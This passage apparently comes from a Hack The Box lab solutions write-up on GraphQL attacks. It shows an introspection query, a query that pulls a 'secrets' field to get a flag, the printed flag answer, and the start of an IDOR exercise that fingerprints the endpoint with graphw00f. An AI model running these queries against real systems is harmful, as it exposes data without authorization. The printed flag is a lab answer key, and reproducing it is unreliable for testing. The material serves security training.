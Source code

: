 Code: graphql

```graphql
{
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```

![[HTB Solutions/Others/z. images/f150dcfbbe4fb24c8635b42543ebb44c_MD5.jpg]]

With the obtained information, students will proceed to use the `secrets` supported query specifying the `id` and `secret` fields to obtain the flag using the following query:

Code: graphql

```graphql
{
	secrets {
		id
		secret
	}
}
```

![[HTB Solutions/Others/z. images/98909195e6f1b17a1181125b039cb274_MD5.jpg]]

Answer: `HTB{ddd7c7354d1f06db3604b3bbc8ccf5cd}`

# Insecure Direct Object Reference (IDOR)

## Question 1

### "After following the steps in the section, what is the flag you can find in the admins password?"

After spawning the target, students will proceed to clone [graphw00f](https://github.com/dolevf/graphw00f) to find and fingerprint the GraphQL endpoint on the target using the `-f` (fingerprint mode), `-d` (detect mode) and `-t` (target URL) options:

Code: shell

```shell
git clone https://github.com/dolevf/graphw00f
cd graphw00f
python3 main.py -f -d -t http://STMIP:STMPO
```
